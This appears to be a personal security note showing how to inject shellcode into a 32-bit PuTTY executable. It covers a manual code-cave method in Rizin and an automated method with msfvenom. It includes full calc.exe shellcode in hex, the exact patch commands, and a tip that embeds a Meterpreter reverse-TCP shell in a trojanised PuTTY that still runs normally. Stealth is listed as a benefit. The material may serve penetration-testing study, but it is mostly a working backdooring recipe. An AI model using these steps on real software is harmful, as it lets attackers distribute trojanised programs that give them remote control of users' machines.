


![[Pasted image 20260304024051.png]]

## 🧪 Experiment Overview

A **Code Cave Injection** technique was executed to safely embed a payload into a target process, execute it, and seamlessly resume the original functionality.

| Component | Specification |
| :--- | :--- |
| **Tool** | [Rizin](https://rizin.re/) (Reverse Engineering Framework) |
| **Target Process** | PuTTY 32-bit (Legacy Terminal Emulator) |
| **Architecture** | x86 (32-bit) |
| **Payload** | `calc.exe` Launcher |
| **Result** | Calculator opens, PuTTY remains operational |

---

## 📖 Concept: Code Cave Injection

**Code Cave Injection** involves finding a writable, unused memory region (a "cave") within the target process, injecting shellcode there, overwriting an existing jump instruction to redirect execution to the cave, running the payload, and then jumping back to the original code flow.

### Why use it?

- 🛡️ **Stealth**: Less likely to be detected than Direct API Hooking.
- ⚡ **Non-Intrusive**: The original code resumes exactly where it left off.
- 🔒 **Stability**: Avoids breaking the target process if the payload fails.

---

## 🛠️ Execution Workflow with Rizin




> [!info]- Injection With rizin
> - Step 0x1 Find EntryPoint of Binary
> 
> ![[Pasted image 20260304025952.png]]
> - Step 0x2 Copy head of EntryPoint
> 
> ![[Pasted image 20260304030137.png]]
> 
>```
>0x00454ad0      push 0x60
>0x00454ad2      push data.00477ab0 
>0x00454ad7      fcn.00456be4 () 
>0x00454adc      edi = 0x94 
>0x00454ae1      eax = edi
>```
>
> ![[Pasted image 20260304031008.png]]
> 
> - Step 0x3 Find Free space in Text Section
> ``` s 0x00401000+0x5c000 ```
> 
> ![[Pasted image 20260304031837.png]]
> - Step 0x4 Save stats of all register &  flags
>```
>:> s 0x0045c961
>:> wa pushad
>:> s 0x0045c962
> :> wa pushfd
>```
>![[Pasted image 20260304033653.png]]
> - Step 0x5 Inject Your opcode 
> 
>> [!danger]- Create Your Custom Shellcode
>>
>>```
>>msfvenom -p windows/exec CMD=calc.exe -a x86 -f hex
>>```
>
>```
>wx fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500
>```
>
>![[Pasted image 20260304033820.png]]
>
> - Step 0x6 back to Your Entry
> 
>![[Pasted image 20260304040102.png]]
>
>```
>:> s 0x0045ca16
>:> wa "jmp 0x0045ca29"
>:> s 0x0045ca29
>:> wa "popfd"
>:> s 0x0045ca2a
>:> wa "popad"
>:> s 0x0045ca2b
>:> wa "push 0x60"
>:> s 0x0045ca2d
>:> wa "push data.00477ab0"
>:> s 0x0045ca32
>:> wa "jmp 0x00454ad7" // jump to fcn.00456be4()
>```
>

### Result

![[Pasted image 20260304121127.png]]


# 🚀 Payload Injection via MSFVenom (EXE Patching)
> [!danger] Method: `windows/messagebox` EXE Patching
> A simpler, high-level method to inject a payload into an existing executable without manual assembly or memory analysis.

## 🧪 Concept: `EXE` + `X` (Patching)

This technique uses `msfvenom` to create a **new executable** that:
1.  **Embeds** the original `PUTTY.EXE` binary.
2.  **Prefixes** the payload (shellcode) before the original binary.
3.  **Hooks** the entry point to run the payload first.
4.  **Resumes** the original `PUTTY.EXE` after the payload finishes.

### ⚙️ Command Breakdown

```bash
msfvenom -p windows/messagebox -a x86 -f exe -k -x PUTTY.EXE -o payload.exe
```

|Flag|Description|
|---|---|
|`-p windows/messagebox`|**Payload**: Shows a “Hello World” MessageBox (or custom string).|
|`-a x86`|**Architecture**: 32-bit (Required for 32-bit PuTTY).|
|`-f exe`|**Format**: Generates a valid Windows PE executable.|
|`-k`|**Keep**: Keeps the original binary intact after injection.|
|`-x PUTTY.EXE`|**Payload**: The target binary to be patched.|
|`-o payload.exe`|**Output**: Name of the new injected executable.|



> [!tip] Example for Reverse Shell
> 
>```
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -a x86 -f exe -k -x PUTTY.EXE -o payload.exe 
>``` 

> _This will open a Meterpreter session on connection, then run PuTTY._

---

## 📝 Summary

Using `msfvenom -x` is the **“Swiss Army Knife”** for quick executable injection. It automates the complex logic of finding memory caves, aligning headers, and creating stubs, making it the preferred method for rapid prototyping and penetration testing.
